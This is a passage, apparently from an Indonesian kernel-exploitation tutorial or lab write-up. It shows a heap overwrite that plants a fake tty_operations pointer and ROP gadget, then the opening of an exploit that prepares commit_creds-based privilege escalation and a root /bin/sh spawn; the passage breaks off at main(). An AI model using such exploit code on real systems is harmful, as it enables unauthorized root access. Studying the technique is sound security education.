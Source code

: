 ```c
...
unsigned long *p = (unsigned long *)&buff[0x400];
p[12] = kbase + 0x3a478a; //rop_push_rdx_mov_ebp_415bffd9h_pop_rsp_r13_rbp
*(unsigned long*)(buff + 0x418) = g_buf + 0x400;
printf("heap overwrite: 0x%016lx\n" ,*p);
printf("fake pointer function: 0x%016lx\n" ,p[0xc]);
printf("fake tty_operation: 0x%016lx\n" ,*(unsigned long*)(buff + 0x418));
...
```
ini adalah kode epxloit terakhirnya:

```c
#include<stdio.h>
#include<stdlib.h>
#include<fcntl.h>
#include<unistd.h>
#include<string.h>
#include<sys/ioctl.h>


#define ERR(msg) ({             \
            perror(msg);        \
            exit(EXIT_FAILURE); \
})

unsigned long user_rsp, user_cs, user_ss, user_rflags;
unsigned long tty_ops, g_buf, kbase;
int global_fd;

unsigned long commit_creds;
unsigned long prepare_kernel_cred;
unsigned long pop_rdi;
unsigned long pop_rcx;
unsigned long swapgs;
unsigned long mov_rdi_rax_rep;
char buff[0x500];

void save_state()
{
    asm(
            ".intel_syntax noprefix;"
            "mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_rsp, rsp;"
            "pushf;"
            "pop user_rflags;"
            ".att_syntax;"
       );
    puts("[+] save state");
}

void shell()
{
    char *argv[] = {"/bin/sh",NULL};
    char *envp[] = {NULL};
    puts("ROOOOT");
    execve("/bin/sh",argv,envp);
}

int main()
{
    save_state();

    int fd_spray[100];
```
